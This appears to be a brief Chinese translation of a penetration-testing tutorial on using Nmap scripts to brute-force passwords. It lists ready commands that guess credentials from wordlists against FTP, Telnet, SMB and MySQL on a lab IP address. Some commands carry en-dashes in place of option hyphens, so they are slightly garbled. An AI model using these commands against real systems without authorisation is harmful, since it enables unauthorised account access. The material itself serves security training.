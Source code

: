 ## 使用Nmap进行密码破解

**FTP BRUTE ** [^1]

`nmap -p21 –script ftp-brute.nse –script-args  userdb=/root/Desktop/user.txt,passdb=/root/Desktop/pass.txt 192.168.1.105`

**TELNET BRUTE**

`nmap -p23 –script telnet-brute.nse –script-args   userdb=/root/Desktop/user.txt,passdb=/root/Desktop/pass.txt 192.168.1.105`

**SMB BRUTE**

`nmap –p445 –script smb-brute.nse –script-args   userdb=/root/Desktop/user.txt,passdb=/root/Desktop/pass.txt 192.168.1.105`

 **MYSQL BRUTE**

`Nmap  -sT -p3306 –script mysql-brute.nse –script-args  userdb=/root/Desktop/user.txt 192.168.1.105`

[原文](https://www.hackingarticles.in/password-cracking-using-nmap/)

---

[^1]: 使用nmap的FTP脚本暴力破解密码

